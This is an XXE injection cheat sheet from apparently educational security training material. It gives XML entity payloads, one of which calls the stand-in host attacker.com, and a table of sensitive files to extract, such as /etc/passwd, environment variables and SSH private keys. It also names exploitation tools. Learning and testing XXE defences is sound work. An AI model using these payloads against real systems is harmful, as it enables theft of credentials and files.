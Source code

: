 
## 📊 XXE Cheat Sheet

### Detection Payloads
```xml
<!-- Basic test -->
<!DOCTYPE foo [<!ENTITY xxe "test">]><foo>&xxe;</foo>

<!-- With SYSTEM -->
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/hostname">]><foo>&xxe;</foo>

<!-- Parameter entity -->
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com">%xxe;]>
```

### Useful Files to Read
| OS | File Path | Description |
|----|-----------|-------------|
| Linux | `/etc/passwd` | User accounts |
| Linux | `/etc/hosts` | Network config |
| Linux | `/proc/self/environ` | Environment vars |
| Linux | `~/.ssh/id_rsa` | SSH private key |
| Windows | `C:\Windows\win.ini` | Windows config |
| Windows | `C:\Windows\System32\drivers\etc\hosts` | Hosts file |
| Any | `config.php`, `web.config` | App configs |

---

## 🏆 Skill Check

Before moving on, make sure you can:

- [ ] Identify XXE injection points
- [ ] Extract files using XXE
- [ ] Perform blind XXE attacks
- [ ] Use XXE for SSRF
- [ ] Implement secure XML parsing

---

## Additional Resources

### 🔧 Tools
- **XXEinjector**: Automated XXE exploitation tool
- **OXML_XXE**: XXE in Office documents
- **XXE-FTP-Server**: For blind XXE
